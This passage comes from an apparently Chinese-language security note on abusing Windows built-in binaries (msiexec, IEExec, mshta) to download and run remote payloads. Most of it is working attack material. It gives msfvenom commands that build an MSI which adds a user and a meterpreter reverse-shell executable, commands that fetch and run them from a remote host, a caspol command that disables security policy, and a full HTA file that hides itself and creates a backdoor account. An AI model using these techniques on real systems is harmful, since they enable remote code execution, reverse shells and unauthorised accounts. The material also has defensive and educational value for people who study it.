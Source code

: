 **9、msiexec**

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

```
#生成msi包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
#远程执行
msiexec /q /i http://192.168.28.128/evil.msi
```

成功添加了一个test用户：

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-9.png)

**10、IEExec**

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

生成Payload：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
```

使用管理员身份打开cmd，分别运行下面两条命令。

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-10.png)

**11、mshta**

mshta用于执行.hta文件，而hta是HTML Applocation 的缩写，也就是HTML应用程序。而hta中也支持VBS。所以我们可以利用hta来下载文件。

```
mshta http://192.168.28.128/run.hta
```

run.hta内容如下：

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```
